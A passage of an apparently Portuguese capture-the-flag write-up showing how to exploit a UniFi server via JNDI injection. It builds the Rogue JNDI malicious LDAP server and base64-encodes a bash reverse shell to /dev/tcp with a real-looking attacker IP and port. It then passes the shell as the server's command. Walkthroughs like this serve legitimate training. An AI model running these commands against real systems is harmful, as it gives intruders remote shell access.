 Rogue JNDI é um servidor LDAP malicioso que vai nos permitir enviar comandos para explorar o servidor.  
### Gerando string e servidor LDAP

Gerando o arquivo jar que faz parte do payload.  
`git clone https://github.com/veracode-research/rogue-jndi.git`  
`cd rogue-jndi`  
`mvn package`

![Alt text](/assets/img/unifi3.png)

- String

`echo 'bash -c bash -i >&/dev/tcp/MEUIP/A PORTA DE SUA ESCOLHA 0>&1' | base64`

A string será usada nesse comando

`java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,STRING AQUI}| {base64,-d}|{bash,-i}" --hostname "SEUIP"`
Ficando
```shell
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUxLzQ0NDMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname “10.10.14.151”
```
{: .nolineno }

### Reverse Shell

![Alt text](/assets/img/unifi4.png)
